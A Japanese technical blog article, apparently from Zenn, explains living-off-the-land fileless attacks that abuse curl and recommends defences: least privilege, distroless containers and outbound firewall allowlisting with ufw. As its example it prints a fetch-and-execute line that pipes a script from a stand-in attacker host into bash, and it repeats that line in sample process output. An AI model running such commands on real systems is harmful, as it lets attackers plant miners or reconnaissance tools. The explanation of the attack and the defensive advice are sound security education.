

## はじめに

日々の業務で何気なく利用しているコマンドラインツールが、サイバー攻撃の強力な武器として悪用されるケースが増加しています。攻撃者が独自のマルウェアを持ち込むのではなく、すでにサーバーにインストールされている正規のツールを悪用する手口は「環境寄生型攻撃（Living off the Land）」と呼ばれます。

本記事では、サーバーエンジニアが頻繁に利用する通信コマンドが、実際の攻撃でどのように悪用されているのかを交えながら、その原理と対策を深掘りして解説します。

## 対象者

- サーバーの構築や運用を担当しているエンジニア
- Webアプリケーションをインターネットに公開している方
- 最新のサイバー攻撃の手口を知って対策したい方

## 正規コマンドによるファイルレス攻撃とは

従来のサイバー攻撃では、攻撃者が外部からマルウェアやハッキングツールをサーバーに送り込み、保存させてから実行させる手法が主流でした。しかし、近年ではセキュリティ製品の性能が向上し、未知の不審なファイルは即座に検知されブロックされるようになりました。

そこで攻撃者が目をつけたのが、システムに最初から存在している正規の管理用コマンドの悪用です。

攻撃者は、OSコマンドインジェクションやファイルアップロード機能の不備といったアプリケーションの脆弱性を突いて内部に侵入すると、サーバーに常備されている通信系のコマンドを巧みに操ります。正規のツールを利用してインターネットから悪意あるスクリプトを直接読み込み、ディスクに一切保存することなく実行してしまうのが「ファイルレス攻撃」と呼ばれる手口の大きな特徴です。

## 攻撃プロセスとメカニズム

エンジニアにとって、新しいソフトウェアをインストールする際やAPIの動作確認を行う際に欠かせないのが通信系のツール群です。しかし、これらは攻撃者にとっても、自身のサーバーからマルウェアをダウンロードするための非常に便利なツールとして機能します。

例えば、以下のようにパイプ処理を組み合わせることで、ファイルをディスクに書き込むことなく、メモリ上で直接不正なスクリプトを実行することが可能となります。

```bash
$ curl -s http://attacker.example.com/malicious.sh | bash
```

この一行が実行されるだけで、仮想通貨を採掘するマイニングソフトの動作や、社内ネットワークを探索するツールの起動が裏側で行われてしまいます。



:::message alert
もっとも恐ろしい点は、証拠となるディスクへのファイルの書き込みが一切発生しないため、定常的なウイルススキャンをすり抜けやすいという事実です。
:::

#### コラム（ログからは通常の操作にしか見えない）

セキュリティ製品やシステムのプロセスログからは、単に管理者が正規のコマンドを実行環境で叩いたようにしか見えず、攻撃の検知や追跡が著しく困難になります。実際のプロセス稼働状況を確認しても、見慣れたコマンドが引数付きで動いているだけに過ぎません。

```bash
# プロセス一覧（psコマンド）を確認した例
$ ps aux | grep -E "curl|bash"
root      1234  0.0  0.1  14236  3044 ?        Ss   10:00   0:00 bash
root      1235  0.1  0.2  20480  5120 ?        S    10:00   0:01 curl -s http://attacker.example.com/malicious.sh
```

## サイバー攻撃に対する防衛手段

正規のツールを悪用する攻撃に対しては、当該ツール自体をシステムから削除すると業務に支障が出るため単一の対策は機能しづらく、多角的なアプローチが必要です。

第一に、アプリケーションの実行権限を最小限に制限することが重要です。Webサーバーが万が一乗っ取られたとしても、被害を局所化できるように、実行ユーザーには必要最低限の権限のみを付与し、安易な特権付与を避けます。また、コンテナ技術を活用し、本番環境のコンテナイメージには最初からシェルや通信系コマンドを含めない構成（Distrolessイメージの採用など）にすることも防御の観点から非常に有効な対策となります。

第二に、アウトバウンドネットワーク通信の厳格な管理が求められます。インターネットからサーバーへのインバウンド通信は厳密にブロックしていても、サーバーから外への通信については無制限に許可されているケースが少なくありません。必要なAPI連携先やOSのアップデートサーバーのみをホワイトリストで許可することで、マルウェアのダウンロード自体を未然に防ぐことができます。

```bash
# 全てのアウトバウンド通信を規定で拒否する設定例
$ sudo ufw default deny outgoing

# 必要なAPI連携先やアップデートサーバーのみを個別に許可する
# （※運用時はDNSなどの必須システム通信も考慮して許可ルールを設計します）
$ sudo ufw allow out to 203.0.113.51 port 443

$ sudo ufw enable
```

このように、入ってくる通信だけでなく出ていく通信にも制限をかけることが、この種のサイバーリスクに対する強力な抑止力となります。

## おわりに

私自身、初めて環境寄生型攻撃の手口を知ったときは、自分が普段便利に使っているツールがそっくりそのまま刃として向けられることに衝撃を受けました。便利であるということは、裏を返せば攻撃者にとっても使い勝手が良いということです。

システムに最初から用意されている道具は、設定や監視が行き届いていないと思わぬ落とし穴になります。日々の業務でコマンドを叩く際、少しだけ「これが悪用されたらどうなるだろう」と想像してみることが、よりセキュアなシステム構築への第一歩になるのではないかと思います。

本記事が、サーバー運用のセキュリティ方針を見直す参考となれば幸いです。

---

### SNS共有用テンプレート

🆕 Zenn記事を公開しました！
【🛡️身近なcurlコマンドが導く罠：ファイルレス攻撃の脅威と防衛策】

業務で使う身近なコマンドが、実はサイバー攻撃の強力な武器になり得るのをご存知ですか。
✅ 環境寄生型攻撃（LotL）の脅威
✅ curlを使ったファイルレス攻撃の手法
✅ アウトバウンド通信制限などの防御策

▼記事はこちら
https://zenn.dev/xxx/articles/lotl-curl-bash
#セキュリティ #インフラ #Linux #サイバー攻撃 #エンジニア
